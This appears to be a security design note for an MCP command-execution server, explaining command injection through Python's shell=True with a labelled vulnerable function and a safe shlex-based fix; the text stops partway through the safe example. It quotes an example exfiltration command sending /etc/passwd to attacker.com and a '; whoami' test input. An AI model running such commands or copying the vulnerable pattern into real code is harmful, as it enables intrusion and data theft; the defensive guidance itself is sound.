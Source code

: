 # Known Gotchas: Streamlined Vibesbox MCP Server

## Overview

Research identified critical security vulnerabilities, subprocess management pitfalls, and Alpine Linux compatibility issues that must be addressed for safe command execution. The three highest-priority gotchas are: (1) command injection via `shell=True`, (2) MCP tool JSON response format requirement, and (3) zombie process accumulation from asyncio subprocesses. Additional concerns include Docker container escape vectors, HTTP streaming timeout issues, and Alpine/musl libc Python incompatibilities.

## Critical Gotchas

### 1. Command Injection via subprocess shell=True (CWE-78)

**Severity**: Critical
**Category**: Security Vulnerability - Arbitrary Code Execution
**Affects**: Python subprocess module, any command execution component
**Source**: https://snyk.io/blog/command-injection-python-prevention-examples/

**What it is**:
Using `subprocess.run()` or `asyncio.create_subprocess_shell()` with `shell=True` enables shell metacharacter interpretation, allowing attackers to chain commands using `;`, `|`, `&`, `&&`, `||` or inject malicious payloads. This is the #1 command injection vulnerability in Python.

**Why it's a problem**:
- Arbitrary code execution with application privileges
- Data exfiltration via command chaining (`ls -la && curl attacker.com --data @/etc/passwd`)
- System compromise (reverse shells, privilege escalation)
- According to CISA 2024 report, command injection vulnerabilities enabled major threat actor campaigns

**How to detect it**:
- Static analysis tools (bandit, semgrep) flag `shell=True` usage
- Code review: search for `subprocess.*shell=True` pattern
- Runtime: monitor for unexpected child processes spawned by container
- Test: inject metacharacters like `; whoami` into command inputs

**How to avoid/fix**:

```python
# ❌ WRONG - Vulnerable to injection
import asyncio

async def execute_vulnerable(user_command: str):
    # Attacker input: "ls; curl attacker.com --data @/etc/passwd"
    process = await asyncio.create_subprocess_shell(
        user_command,  # DANGEROUS!
        stdout=asyncio.subprocess.PIPE,
        stderr=asyncio.subprocess.PIPE,
        shell=True  # ENABLES SHELL INJECTION!
    )
    stdout, stderr = await process.communicate()
    return stdout.decode()

# ✅ RIGHT - Safe approach using argument list
import shlex
import asyncio

async def execute_safe(user_command: str):
    # Parse command safely into argument list
    args = shlex.split(user_command)  # Prevents injection

    # Execute without shell=True (no shell metacharacter processing)
```